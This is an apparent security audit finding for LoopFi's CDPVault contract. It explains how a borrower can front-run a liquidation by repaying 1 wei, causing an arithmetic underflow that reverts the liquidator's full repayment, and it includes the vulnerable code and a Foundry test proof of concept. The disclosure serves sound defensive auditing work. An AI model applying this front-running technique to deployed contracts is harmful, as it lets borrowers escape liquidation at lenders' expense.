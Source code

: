## [H] Malicious borrower can evade full liquidation in `CDPVault::liquidatePosition` by repaying small amounts of debt

[CDPVault.sol#L509](repos/2024-07-loopfi/src/CDPVault.sol#L509)

[CDPVault.sol#L713](repos/2024-07-loopfi/src/CDPVault.sol#L713)

### Impact

In the `CDPVault::liquidatePosition` function, a liquidator can repay the total debt of a position to liquidate it, this can be achieved by calling the `CDPVault::virtualDebt` function to obtain the total debt and then call `CDPVault::liquidatePosition`. However, a malicious borrower can front-run this liquidation transaction by repaying a small amount (e.g., 1 wei) of the debt. This action causes the debt to be slightly less than the amount the liquidator intends to repay. Consequently, the subtraction operation in `CDPVault#L713` will underflow, leading to a revert in the transaction. This will allow borrowers to evade total debt liquidation.

### Proof of Concept

Consider the next scenario:

1. Assume the initial debt is `80 ether`. The position is liquidatable.
2. Liquidator prepares to repay the full debt `80 ether` to liquidate the position via `CDPVault::liquidatePosition`. Liquidator gets the full debt using `CDPVault::virtualDebt` function.
3. Malicious borrower front-runs the transaction and repays `1 wei`, the debt is now `80 ether - 1 wei`.
4. Liquidator's transaction is executed but it attempts to repay `80 ether`, causing an underflow when the `newDebt` is calculated `CDPVault#L713` as `(80 ether - 1 wei) - 80 ether`.

```solidity
File: CDPVault.sol
652:     function calcDecrease(
653:         uint256 amount,
654:         uint256 debt,
655:         uint256 cumulativeIndexNow,
656:         uint256 cumulativeIndexLastUpdate,
657:         uint128 cumulativeQuotaInterest
658:     )
659:         internal
660:         pure
661:         returns (uint256 newDebt, uint256 newCumulativeIndex, uint256 profit, uint128 newCumulativeQuotaInterest)
662:     {
663:         uint256 amountToRepay = amount;
...
...
713:>>>      newDebt = debt - amountToRepay;  // underflow
714:     }
```

The next test demonstrates how the malicious borrower can evade full liquidation by repaying small amounts of the debt.

```solidity
    // File: CDPVault.t.sol
    function test_liquidate_fullliquidation_panicerror() public {
        CDPVault vault = createCDPVault(token, 150 ether, 0, 1.25 ether, 1 ether, 0.95 ether);
        createGaugeAndSetGauge(address(vault));
        // create position
        _modifyCollateralAndDebt(vault, 110 ether, 80 ether);
        // position is liquidatable
        _updateSpot(0.80 ether);
        //
        // 1. Liquidator calculates the full debt in order to call `CDPVault::liquidatePosition`.
        address position = address(this);
        uint256 liquidatorRepayAmount = virtualDebt(vault, position);
        address liquidator = address(0xb0b);
        createCredit(liquidator, liquidatorRepayAmount);
        //
        // 2. Malicious borrower frontrun liquidator and repays 1 wei
        mockWETH.approve(address(vault), 1);
        vault.modifyCollateralAndDebt(address(this), address(this), address(this), 0, -toInt256(1));
        //
        // 3. Liquidator tx is executed but it will be reverted by `arithmeticError`
        vm.startPrank(liquidator);
        mockWETH.approve(address(vault), liquidatorRepayAmount);
        vm.expectRevert(stdError.arithmeticError);
        vault.liquidatePosition(position, liquidatorRepayAmount);
    }
```



